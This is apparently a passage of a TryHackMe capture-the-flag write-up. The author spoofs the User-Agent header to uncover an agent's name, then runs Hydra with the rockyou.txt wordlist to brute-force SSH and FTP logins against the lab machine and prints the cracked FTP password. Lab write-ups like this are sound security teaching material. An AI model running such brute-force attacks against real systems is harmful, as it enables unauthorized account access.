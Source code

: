 I clicked "Edit and Resend" and modified the "user-agent" header to "R", since the bottom of the original webpage mentions an "Agent R". I got the following:

```
What are you doing! Are you one of the 25 employees? If not, I going to report this incident

Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
```

I honestly did not know where to go from here, I looked at a hint on the TryHackMe room, and it said to try user-agent "C". So, when I changed the user-agent to "C", I got the following:
	
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your g*d d*mn password, is weak!

From,
Agent R 
```

So, now we have an agent's name: "chris", and a message that indicates that he has a weak password! Now we're getting somewhere!

I then tried to crack chris' SSH password with Hydra and the rockyou.txt wordlist:

``` shell
hydra -l chris -P rockyou.txt {MACHINE_IP} ssh
```

After about 10 minutes, I stopped it. Since this is an easy CTF, I figured that the SSH password was not supposed to be cracked. I then tried hydra for the FTP password:
	
```shell
hydra -l chris -P rockyou.txt 10.10.11.103 ftp
```

...and we cracked it!

```
[21][ftp] host: 10.10.11.103   login: chris   password: crystal
```

So then I logged into the machine through FTP:
	
```shell 
ftp {MACHINE_IP}
```

I was then prompted for a username/password. I inputed the following:
	
Username: **chris**
Password: **crystal**
